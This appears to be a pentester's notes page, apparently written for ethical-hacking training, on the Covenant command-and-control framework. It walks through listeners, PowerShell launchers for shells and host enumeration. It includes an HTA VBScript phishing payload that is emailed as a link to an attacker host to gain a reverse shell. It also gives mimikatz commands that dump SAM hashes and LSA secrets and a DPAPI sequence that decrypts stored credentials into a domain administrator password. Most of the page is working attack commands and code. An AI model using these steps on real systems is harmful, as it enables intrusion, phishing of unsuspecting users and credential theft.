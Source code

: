 # Covenant

## Installation

### Install Dotnet

```
cd /tmp  
wget https://packages.microsoft.com/config/ubuntu/21.04/packages-microsoft-prod.deb -O packages-microsoft-prod.deb 
sudo dpkg -i packages-microsoft-prod.deb 
sudo apt update -y  
sudo apt-get install -y apt-transport-https dnsutils 
sudo apt-get update  
sudo apt-get install -y dotnet-sdk-3.1 
```

### Install and launch Covenant

```
sudo git clone --recurse-submodules https://github.com/ZeroPointSecurity/Covenant.git /opt/Covenant 
cd /opt/Covenant/Covenant
sudo dotnet run
```
- Navigate to https://127.0.0.1:7443 set up your user and you should be good to go

## Start a listener

- This one of the first thing to do it go to the listener tab and click on create  
![image](https://user-images.githubusercontent.com/96747355/178054727-6633f276-24ea-4b9d-ac93-316f3a812d3c.png)  
- Fill the field as you wish. Here is mine  
![image](https://user-images.githubusercontent.com/96747355/178057695-41943d70-cefc-41ac-9396-bad4cd9bce56.png)  


## Create a Launcher to get a shell

- We can go to Launcher and choose one we need. For example if we have an initial foothold on a win machine we could use a powershell launcher  
![image](https://user-images.githubusercontent.com/96747355/178056997-81d23254-184d-4e41-a220-c758ea55d6a4.png)  
- Say we wanted a powershell, we need to choose a listener so we can select the http one we just created then we just have to click generate (or Download depending on how you will use it) and use the given code. (Note: make sure to use a date later in time for the killDate)  
![image](https://user-images.githubusercontent.com/96747355/178057272-f4d74fdf-7ac5-4aa3-9ad0-996578935f82.png)  
- Once the powershell code used you see a grunt has popped


## Local Enumeration

- Suppose we have a grunt (a shell on the target) so we want to enumerate the target
- Click on the grunt > Interact
- Use Seatbelt `Seatbelt -group=all`
  - We will get useful info: local users, dns info (such as email domain and all), interesting files, etc.
- Use the cmd `GetDomainUser` to enumerate domain users
- Use the cmd `GetNetLoggedOnUser`to have a list of logged on users
- Use the cmd `GetNetLocalGroup` to have a list of local group
- etc.

## hta Email Phishing

- Create and hta file in your attacking machine:

```
<script language="VBScript">
  Function DoStuff()
    Dim wsh
    Set wsh = CreateObject("Wscript.Shell")
    wsh.run "<powershell command here>"
    Set wsh = Nothing
  End Function

  DoStuff
  self.close
</script>
```

- Create an HTTP listener in Covenant
  - Listener > create 
  - The table in listener should look like this  
    | Name        |    ListenerType | Status | StartTime	    |        ConnectAddresses   |   ConnectPort|
    |-------------|-----------------|--------|----------------|---------------------------|--------------|
    |HTTP Listener |	HTTP 	        |Active 	|3/7/2022 8:28:13 PM |	IP-OF-ATTACK-MACHINE 	    | 80

  - Go to Launchers > Powershell
  - Fill up the info, be careful taht the killdate is later in the future (not in the past)
  - Click on generate
  - Copy the encoded Launcher and put it in the script above instead of `<powershell command here>` 
  - Save the script
  - Go back to Listerners click on the listener that was just set up 
  - Go to Hosted Files, in Path enter `/name-of-your-script.hta`
  - Click on Browse and select your script
  - And click on create
  - If we go to `http://localhost/name-of-your-script.hta` we should be able to download it
- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the user will click the link an run the script we will get our reverse shell
- If we go to Covenant again and check in Grunt we should have a new one
- If you are not able to execute command (they stay Uninitialized) try either of those:  
  - Verify the kill date of the launcher
  - the UI may not allow changing the date.  This can be fixed by deleting the `/opt/Covenant/Covenant/data/covenant.db` file and restarting the service. You will lose all data and need to create a new user to log in with.

## Dump hashes with mimikatz

- In a high grunt
- We can use this to see if any plaintext info might come out `Mimikatz token::elevate lsadump::secrets`
- Will dump the sam file (where password hashes are stored in windows)`Mimikatz token::elevate lsadump::sam`
- Covenant will save the Crendentials in the Data section as well

## Cracking Credential Vault with mimikatz

- We need a medium integrity grunt
- `mimikatz vault::cred` will show all services with persisted passwords
- `ls C:\users\user\appdata\local\microsoft\credentials` will list the passwords files the smallest of the files is gemerally the one we need.
- We then go to the tab tak in our grunt. We select Mimikatz from the list and type this task: `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\FILE-PREVIOUSLY-CHOSEN"`
- From the output of the task we need to keep aside the value of the guidMasterKey 
- `ls C:\users\user\appdata\roaming\microsoft\protect` this should list a directory with an sid value in the end
- If you do an ls on this it should list the same path with the guidMasterKey value we previously found. We need to copy the full path, and then we go to task again and using mimikatz we need to type `"dpapi::masterkey /in:C:\users\user\appdata\roaming\microsoft\protect\sid\guidMasterKey /rpc"`
- This way we will het in the end of the output the key for the domain controller which should look like this: `key : 60f202bff3c6e2eaedfc4c28ac1adbdd102ec7dba401157f6f8c2056205507ed4e6d93120ebe48959751c0f2c939e515382d7ffec7bd2b129c8eb89466b31f0f`
- We need to keep this key aside
- We go back to task and we type `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\sid /masterkey:<PASTE-THE-KEY-HERE>"
- This should dump the domain password, you should see it at the end of the output:
  ```
  UserName       : domain\Administrator
  CredentialBlob : Password123!
  ```

## Resources

{% embed url="https://github.com/cobbr/Covenant" %} Get Covenant here {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} Movement Pivoting and Persistence - TCM Security Academy {% endembed %}
